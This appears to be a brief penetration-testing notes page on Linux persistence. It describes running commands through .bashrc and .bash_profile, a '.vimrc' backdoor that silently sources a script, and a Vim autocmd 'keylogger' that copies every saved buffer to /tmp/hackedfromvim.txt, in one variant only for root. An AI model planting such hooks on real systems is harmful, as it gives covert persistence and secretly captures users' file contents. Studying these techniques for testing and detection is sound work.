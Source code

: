 ```yaml
---
layout:     post
author:     0x5c4r3
type: docs
permalink: Linux_Config_Files
---
```


<span style="font-size: 35px; color:red"><b>Linux Configuration Files</b></span>

You can add bash commands to these file to execute them:
- <span style="color:red">.bash_profile</span>: run when the system boots.
- <span style="color:red">.bashrc</span>: run when a new terminal window is open.

&nbsp;

---
&nbsp;
<span style="font-size: 25px; color:white"><b>Vim Configuration Backdoor</b></span>

Opening VIM, you can run commands (after the <span style="color:red">:</span>) like <span style="color:red">! touch /tmp/test.txt</span>

Modify <span style="color:red">.vimrc</span> (or create a new one like <span style="color:red">.vimrunscript</span>) adding commands and load them with <span style="color:red">:silent !source ~/.vimrunscript</span> (where <span style="color:red">vimrunscript</span> is a bash script file)
&nbsp;

---
&nbsp;
<span style="font-size: 25px; color:white"><b>Vim Keylogger</b></span>
```shell
:autocmd BufWritePost * :silent :w! >> /tmp/hackedfromvim.txt
```
OR
```shell
:if $USER == "root"
:autocmd BufWritePost * :silent :w! >> /tmp/hackedfromvim.txt
:endif
```

